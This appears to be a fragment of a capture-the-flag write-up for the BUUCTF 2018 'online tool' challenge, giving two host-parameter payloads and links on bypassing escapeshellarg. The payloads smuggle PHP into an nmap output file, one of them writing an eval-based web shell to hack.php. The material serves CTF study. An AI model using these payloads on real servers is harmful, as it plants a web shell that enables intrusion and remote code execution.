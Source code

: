payload:
```
?host = ' <?php phpinfo() ?>  -oG 1.php '
?host=' <?php @eval($_POST["hack"]);?> -oG hack.php '
```
**resources**
https://github.com/glzjin/buuctf_2018_online_tool
https://www.cnblogs.com/Cl0ud/p/12192230.html
http://www.lmxspace.com/2018/07/16/%E8%B0%88%E8%B0%88escapeshellarg%E5%8F%82%E6%95%B0%E7%BB%95%E8%BF%87%E5%92%8C%E6%B3%A8%E5%85%A5%E7%9A%84%E9%97%AE%E9%A2%98/